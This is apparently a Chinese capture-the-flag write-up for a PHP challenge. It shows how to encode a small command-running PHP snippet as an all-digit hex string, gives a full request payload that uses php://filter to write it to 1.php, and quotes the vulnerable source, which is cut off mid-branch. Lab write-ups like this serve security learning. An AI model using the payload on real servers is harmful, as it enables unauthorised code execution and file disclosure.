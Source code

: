 ![image](images/ma2xju9sOWG3WKVS_mDGPvvLYeX1NV7KEAJHYXBpS4w.png)

构造 思路：通过写入的`$v2`全为数字，转化为字符`$str`，然后写入文件，然后访问文件得到所需 使用base64编码为字符，然后转化为全为数字的16进制得到\$v3 关键就是什么代码base64编码后再转为十六进制为全数字

```Plain Text
>$a="xxx";
$b=base64_encode($a);
$c=bin2hex($b);
如果$c全部都是纯数字就可以了。
$a='<?=`cat *`;';
$b=base64_encode($a);  // PD89YGNhdCAqYDs=
$c=bin2hex($b);      //这里直接用去掉=的base64
输出   5044383959474e6864434171594473
带e的话会被认为是科学计数法，可以通过is_numeric检测。
大家可以尝试下去掉=和带着=的base64解码出来的内容是相同的。因为等号在base64中只是起到填充的作用，不影响具体的数据内容。

>最终payload：v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php post: v1=hex2bin

```
**提升例子**

```Plain Text
<?php 


highlight_file(__FILE__); 
$v1 = $_POST['v1']; 
$v2 = $_GET['v2']; 
$v3 = $_GET['v3']; 
$v4 = is_numeric($v2) and is_numeric($v3); 
if($v4){<!-- --> 
    $s = substr($v2,2); 
    $str = call_user_func($v1,$s); 
    echo $str; 
    if(!preg_match("/.*p.*h.*p.*/i",$str)){<!-- --> 
        file_put_contents($v3,$str); 
    } 
    else{<!-- --> 
```